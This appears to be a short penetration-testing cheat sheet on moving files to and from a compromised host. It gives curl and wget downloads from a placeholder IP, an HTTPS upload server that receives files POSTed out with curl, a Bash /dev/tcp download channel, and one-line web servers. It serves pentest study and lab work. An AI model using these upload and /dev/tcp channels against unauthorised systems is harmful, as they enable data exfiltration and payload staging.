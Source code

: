 **Download**

- [GTFOBins](https://gtfobins.github.io/#+file download)
- `httpserv()`
- `curl http://[IP]:8888/[SRC] -o [DEST]` you can pipe command
- `wget http://[IP]:8888/[SRC] -O [DEST]` with `-qO` you can pipe command

**Upload** `httpservUP()`

1. Create self-signed certificate

   ```bash
   openssl req -x509 -out /tmp/server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
   ```

2. Start Web Server in a new folder

   ```bash
   mkdir -p /tmp/https && cd /tmp/https
   sudo python3 -m uploadserver 443 --server-certificate /tmp/server.pem
   ```

3. Upload (multiple files can be specified)

   ```bash
   curl -X POST https://[IP]/upload -F 'files=@[FILE]' --insecure
   ```

   `--insecure` since we used a self-signed certificate that we trust.

### Bash /dev/tcp

As long as Bash version 2.04 or greater is installed (compiled with  --enable-net-redirections), the built-in /dev/TCP device file can be  used for simple file downloads.

1. Connect to the target Webserver

   ```bash
   exec 3<>/dev/tcp/[IP]/[PORT]
   ```

2. HTTP GET Request

   ```bash
   echo -e "GET [FILE] HTTP/1.1\n\n">&3
   ```

3. Print the response

   ```bash
   cat <&3
   ```

### Upload from server

- `python3 -m http.server 8000`
- `python2 -m SimpleHTTPServer 8000`
- `php -S 0.0.0.0:8000`
- `ruby -run -ehttpd . -p8000`
